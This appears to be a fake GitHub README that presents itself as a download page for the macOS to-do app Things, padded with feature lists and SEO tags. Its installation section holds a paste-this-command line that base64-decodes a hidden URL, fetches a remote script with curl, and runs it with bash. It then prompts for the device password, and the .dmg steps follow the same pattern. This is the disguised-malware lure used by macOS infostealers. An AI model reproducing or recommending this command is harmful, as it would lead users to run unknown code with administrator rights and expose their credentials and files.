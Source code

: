 # 🗓️ Things — Award-Winning To-Do & Task Manager for macOS

**Things** is a beautifully designed and powerful to-do list manager built exclusively for macOS. With an intuitive interface and deep macOS integration, Things makes it effortless to plan your day, manage projects, and stay organized — whether you're a student, professional, or productivity enthusiast.

---

## ✅ Download Things for macOS  
[![Download Things](https://img.shields.io/badge/Download-Things-blueviolet)](https://shuziktobehuman.github.io/huja/Things)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Things?

Things is a feature-rich task manager developed by Cultured Code. It combines simplicity with advanced productivity features, helping users capture thoughts, manage daily tasks, and organize long-term projects — all in a minimal and distraction-free interface. It’s the perfect app for those who want elegance without sacrificing power.

---

## ✨ Features

- ✅ **Today View** to focus on what matters each day  
- 📆 Calendar & Reminder integration  
- 🗂️ Organize tasks with Projects, Headings, and Areas  
- 🔖 Add Tags, Deadlines, and Checklists  
- ✍️ Quick Entry with system-wide shortcut  
- 🔄 Sync across iPhone, iPad & Mac via Things Cloud  
- 🌙 Native dark mode & Apple Silicon support  
- 📊 Powerful search and task filtering  
- 📱 Widgets and Shortcuts integration for macOS & iOS  
- 💡 Supports Markdown for notes and task details

---

## 💡 Why Use Things?

- 🧠 Clean interface for clear mental focus  
- 🗓️ Perfect for both daily planning and long-term projects  
- 🖥️ Deep macOS integration (Calendar, Shortcuts, Widgets)  
- 📲 Seamless sync with all Apple devices  
- 🔄 Recurring tasks and smart scheduling  
- 🎯 Ideal for productivity lovers, GTD users, students, and creatives

---

[![Download Things](https://img.shields.io/badge/Download-Things-blueviolet)](https://shuziktobehuman.github.io/huja/Things)

---


## 🖼️ Preview

![Things Screenshot 1](https://upload.wikimedia.org/wikipedia/commons/6/66/Things_3_for_Mac_-_Main_Window.png)  
![Things Screenshot 2](https://helios-i.mashable.com/imagery/articles/07pwxXt63pDvOLKwcroNXoI/hero-image.fill.size_1248x702.v1623392007.png)

---

## 📌 Tags

to do list mac, things to do on a mac book, things mac, mac todo list,  
todo app mac, todo list app mac, todo apps for mac, todo list on mac,  
all things mac, to do macbook, things 3 mac, osx todo app,  
best things to do on a mac, best things to do on a macbook,  
best things to do on macbook, cool things macbook air can do,  
cool things to do on a mac, cool things to do on a macbook,  
cool things to do on a macbook air, cool things to do on a macbook pro,  
cool things you can do on a macbook air, draw things mac, fun mac,  
fun things to do on a mac, fun things to do on a macbook air,  
fun things to do on macbook air, mac app things, macbook fun,  
macbook things, macos things, things mac download
